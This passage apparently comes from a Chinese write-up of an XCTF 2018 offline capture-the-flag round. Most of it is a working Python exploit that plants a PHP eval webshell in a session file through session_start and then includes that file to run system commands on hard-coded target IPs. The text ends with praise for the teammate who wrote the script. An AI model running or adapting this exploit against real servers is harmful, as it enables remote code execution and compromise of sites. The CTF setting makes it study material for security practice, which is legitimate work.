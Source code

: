 ```python
#encoding:utf-8
# 贴到自己的网站上
import requests
session = requests.Session()
cookies = {"PHPSESSID":"l86epsjlkte51fu6 gp4dr9eir3"}
headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Linux; Android 9.0; Z832 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Mobile Safari/537.36","Connection":"close","Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3","Accept-Encoding":"gzip, deflate","DNT":"1","Content-Type":"application/x-www-form-urlencoded"}


def write_sess(target='http://119.23.14.58:18116'):
    paramsGet = {"save_path":"/tmp","function":"session_start"}
    paramsPost = {"name":"<?php echo 'helloworld';@eval(\x24_POST['moxiaoxi']);?>"}
    response = session.post(target+"/index.php", data=paramsPost, params=paramsGet, headers=headers, cookies=cookies)
    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)

def include_sess(target='http://119.23.14.58:18116', file_pre=''):
    # file_pre = "php://filter/read=convert.base64-encode/resource=/var/lib/php/sessions/"
    # file_pre = "/tmp/sessions/"
    file_pre = "/tmp/"
    # file_pre = "/var/lib/php/sessions/"
    paramsGet = {"file": file_pre + "sess_l86epsjlkte51fu6 gp4dr9eir3", "function": "extract"}
    paramsPost = {"moxiaoxi": "system('ls');"}
    response = session.post(target + "/index.php", data=paramsPost, params=paramsGet, headers=headers)
    # print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)
    if "helloworld" in response.content:
        print '[+] succ~!!!!'
    if "moxiaoxi6666" in response.content:
        print('[+] succ!')
        # print(response.content)



# target = "http://localhost/index.php"
target = "http://10.99.99.16"
write_sess(target)
# with open("guess") as f:
#     lines = f.readlines()
# for line in lines:
include_sess(target)
```

另外，队里小伙伴在初期的试错阶段就开发了这个脚本来测试，很厉害，速度比我快，我要向 moxiaoxi 学习！

### XCTF 2018 线下赛 - pubg （多源码审计）
